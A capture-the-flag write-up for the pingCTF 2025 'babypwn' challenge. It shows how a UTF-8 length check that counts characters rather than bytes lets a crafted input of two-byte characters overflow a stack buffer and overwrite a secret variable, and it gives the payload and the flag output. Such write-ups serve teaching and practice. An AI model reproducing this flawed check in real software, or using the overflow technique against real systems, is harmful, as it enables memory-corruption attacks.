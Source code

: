```yaml
---
title: "babypwn"
data: 2025-03-22
layout: writeup
platform: pingCTF 2025
categories: [pwn]
tags: [Buffer Overflow]
difficulty: Medium
---
```


# babypwn

## Challenge Description

We're given the cpp source code to binary and a server to connect to.
The binary takes in input from a user and prints it back to the user.
There is a secret variable that we need to modify to get the flag.

```cpp
const char secret[5]="1234";
...
if (secret[0]=='p' and secret[1]=='i' and secret[2]=='n' and secret[3]=='g' )
{
    cout << "fake flag"<<endl;
}
```

## Checking stack offsets

I opened the binary in binary ninja and checked the stack offsets of the variables.
The secret variable is at offset `-0x1d`.
and the name_buf is at offset `-0x68`.

`0x68 - 0x1d = 0x4b (75 in decimal)`

## Vulnerability

The buffer size is 64 bytes, but the fgets reads 256 bytes.
There is however a safety net in place.

```cpp
size_t user_inp_size = ww898::utf::size(inp_buf);
if (user_inp_size > name_buf_size)
{
    cout << "buffer overflow detected"<<endl;
    return 0;
}
while (inp_buf[i] != '\n')
{
    name_buf[i] = inp_buf[i];
    i++;
}
```

The vulnerability lies in how the size of the input is calculated.
The size of the input is calculated using `ww898::utf::size(inp_buf)`.
This function calculates the size using the number of characters in the input and not the number of bytes.
This allows us to enter special UTF characters that are 2 bytes in size rather than 1 byte.

## Solution

```python
payload = 37*'È' + '0' + 'ping'
print(payload)
```

```
$ nc ip port
Enter your name:
ÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈ0ping
Hello: ÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈÈ0ping
ping{b3g1nn3r_fr13nd1y_bu773r_0v3rfl0w}
```
